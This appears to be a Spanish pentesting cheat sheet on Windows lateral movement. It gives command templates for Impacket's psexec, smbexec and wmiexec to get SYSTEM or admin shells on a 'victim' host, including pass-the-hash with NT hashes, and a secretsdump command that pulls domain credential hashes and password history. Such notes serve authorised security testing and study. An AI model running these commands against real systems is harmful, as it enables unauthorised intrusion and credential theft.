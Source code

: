 # Psexec

Tags: #Windows #DC #PsExec #WmiExec #SmbExec

```bash 
- Puerto 445 (SMB): Necesario para la ejecución remota de comandos utilizando el protocolo SMB.
- Puerto 135 (RPC): Puede ser necesario para la autenticación remota y la gestión de las conexiones.
```

## Impacket-Psexec

```powershell
❯ impacket-psexec domain.corp/Administrator:Password@IP cmd.exe     # Ingresar con una consola 'CMD' 'NT Authority\System'

❯ impacket-psexec administrator@IP cmd.exe      

	# user = Usuario Administrator'
	# IP = Dirección IP de la maquina víctima 
	# cmd = Ejecuta una consola 'CMD' al ingresar

❯ impacket-psexec domain.corp/'Administrator'@IP -hashes HASH :NT    # Hacer 'PtH' e ingresar a un 'CMD'

❯ impacket-psexec <Domain>/<User>:<Passwd>@<IP> cmd.exe  # Ingresar con una consola 'CMD'
```

## Impacket-Smbexec

```bash 
❯ impacket-smbexec.py administrator@IP -hashes LM:NT     # Podemos utilizar el metodo 'Pass-The-Hash' para ingresar como 'NT Authority\System'
```

## Impacket-Wmiexec 

```bash 
Otra herramienta por si no funcion 'PsExec'
❯ impacket-wmiexec.py administrator@IP -hashes LM:NT     # Podemos utilizar el metodo 'Pass-The-Hash' para ingresar como usuario admin 
```

## Impacket-SecretDump

```bash 
❯ impacket-secretdump -just-dc <Domain>/<User>:<Passwd>@<IP> -history -pwd-last-set   # Muestra el historial y cuando fue configurada la última contraseña
```